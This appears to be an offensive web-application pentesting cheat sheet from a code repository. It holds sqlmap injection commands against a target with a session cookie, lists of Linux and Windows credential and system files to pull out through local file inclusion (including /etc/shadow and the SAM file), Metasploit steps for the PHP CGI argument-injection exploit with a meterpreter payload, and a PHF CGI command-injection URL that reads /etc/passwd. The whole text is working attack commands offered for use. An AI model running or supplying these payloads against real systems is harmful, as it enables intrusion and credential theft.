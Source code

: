 # Attacking Web Applications

## Burp Extentions


## SQL Injection


## SQLMap Cheatsheet
```
#GET Request Injection
sqlmap –cookie=”OV3176019645=7a1p0ilqfud0s0dhdf0p5pqog4″ –url=”http://10.xx.xx.73:8080/php/index.php?tg=site&idx=menusite&item=2&#8243; -p item –proxy=http://127.0.0.1:8081

#POST Request Injection
sqlmap -r sqlmap_request2 -p txtLoginID
```


## Exfiltrate Linux Files - Local File Inclusion
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
cat /etc/*-release
  cat /etc/lsb-release      # Debian based
  cat /etc/redhat-release   # Redhat based
Location of log files
```

## Exfiltrate Windows Files - Local File Inclusion
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits
```
# Detecting / Explout PHP CGI Bug - [CVE-2012-1823]
nmap -p80 --script http-cve2012-1823
msf> use exploit/multi/http/php_cgi_arg_injection
msf> set rhost [HOST_IP]
msf> set PAYLOAD php/meterpreter/bind_tcp
msf> exploit
```

```
# PHF CGI Remote Command Execution - [CVE-1999-0067]
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd


```
